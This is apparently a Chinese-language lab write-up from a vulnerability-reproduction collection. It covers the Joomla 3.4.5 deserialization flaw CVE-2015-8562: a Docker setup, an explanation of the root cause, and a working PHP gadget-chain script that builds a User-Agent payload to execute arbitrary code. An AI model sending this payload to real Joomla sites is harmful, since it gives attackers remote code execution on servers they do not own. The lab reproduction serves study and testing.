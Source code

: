 # Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

 - https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

影响版本

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 测试环境

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的安装界面，当前环境的数据库信息为：

 - 数据库地址：mysql:3306
 - 用户：root
 - 密码：root
 - 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

然后我们先访问一次目标主页，记下服务端返回的Cookie：

![](2.png)

再用如下脚本生成POC：（[在线运行](http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![](3.png)

